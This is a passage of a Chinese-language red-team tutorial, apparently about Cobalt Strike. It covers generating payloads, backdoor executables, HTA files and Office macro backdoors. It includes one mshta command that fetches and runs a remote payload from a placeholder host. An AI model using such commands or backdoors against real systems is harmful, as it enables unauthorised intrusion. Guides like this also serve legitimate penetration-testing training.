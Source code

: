 ·  Payload Generator 　　　　　 生成各种语言版本的payload，可以生成基于C、C#、COM Scriptlet、Java、Perl、     PowerShell、Python、Ruby、VBA等的payload

·  Windows Executable 　　　　　生成32位或64位的exe和基于服务的exe、DLL等后门程序

·  Windows Executable(S)　　　　用于生成一个exe可执行文件，其中包含Beacon的完整payload，不需要阶段性的请求。与Windows Executable模块相比，该模块额外提供了代理设置，以便在较为苛刻的环境中进行渗透测试。该模块还支持powershell脚本，可用于将Stageless Payload注入内存

### HTML Application

HTML Application用于生成hta类型的文件。HTA是HTML Application的缩写（HTML应用程序），是软件开发的新概念，直接将HTML保存成HTA的格式，就是一个独立的应用软件，与VB、C++等程序语言所设计的软件界面没什么差别。HTML Application有三种类型的生成方式，测试发现，只有powershell方式生成的hta文件才能正常执行上线，Executable和VBA方式生成的hta文件执行的时候提示当前页面的脚本发生错误。[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015453627969ce375c.png)

基于PowerShell方式生成的hta文件，执行上线

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0105b4a804de8be60e.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01f33db099e07ba69b.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b37334e8454dc55f.png)

执行mshta上线成功：mshta [http://xx.xx.xx.xx/download/file.ext](http://xx.xx.xx.xx/download/file.ext)

[![](https://p5.ssl.qhimg.com/t010e94901a601e211e.png)](https://p5.ssl.qhimg.com/t010e94901a601e211e.png)

基于Executable方式生成的hta文件，执行报错如下

[![](https://p1.ssl.qhimg.com/t017db0d9833f78c638.png)](https://p1.ssl.qhimg.com/t017db0d9833f78c638.png)

基于VBA方式生成的hta文件，执行报错如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012dbc077160ec0ff5.png)

### MS Office Macro

攻击——&gt;生成后门——&gt;MS Office Macro

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f062a5b7d64d9587.png)

然后选择一个监听器，点击Generate

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0133b7f005bf39ed7d.png)
